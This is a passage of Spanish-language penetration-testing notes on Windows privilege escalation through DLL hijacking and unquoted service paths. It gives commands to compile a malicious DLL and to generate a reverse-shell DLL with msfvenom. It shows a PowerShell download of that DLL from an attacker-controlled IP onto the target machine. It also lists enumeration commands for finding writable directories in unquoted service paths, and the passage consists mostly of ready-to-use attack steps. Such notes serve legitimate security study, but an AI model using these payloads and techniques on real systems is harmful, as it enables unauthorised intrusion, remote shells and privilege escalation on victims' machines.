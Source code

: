 ###### Compilar el archivo evildll.dll

```bash
x86_64-w64-mingw32-gcc evildll.cpp --shared -o evildll.dll
```

###### Alternativa - Usar msfvenom para crear una DLL y recibir una reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f dll -o evildll.dll
```

###### Transferimos la DLL a la máquina objetivo

```powershell
iwr -uri http://192.168.56.5/evildll.dll -OutFile 'C:\Ruta\Al\Binario\<FILE>.dll'
```

> Tener en cuenta, que si ejecutamos el binario con los privilegios de un usuario normal, el binario será ejecutado con esos privilegios y no es lo que queremos. Con esto en mente, no tenemos que iniciar la aplicación por nuestra cuenta. Deberemos esperar a que alguien con mayores privilegios la ejecute y active la carga de nuestra DLL maliciosa.

##### Rutas de servicio sin comillas (Unquoted Service Paths)

###### Orden de búsqueda

```powershell
C:\example.exe
C:\Program Files\example.exe
C:\Program Files\my example\example.exe
C:\Program Files\my example\my example\example.exe
```

###### Enumeración de rutas de servicio

```powershell
# Buscamos servicios que cumplan con esta condición
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# Comprobar si podemos iniciar/detener el servicio
Start-Service <SERVICE>
Stop-Service <SERVICE>

# Buscar en la ruta donde se encuentra el servicio, directorios en los cuales podemos escribir para poder agregar nuestro binario malicioso 
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\my example"

# Iniciamos el servicio
Start-Service <SERVICE>

# Otra forma de buscar binarios que cumplan con esta condición es
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
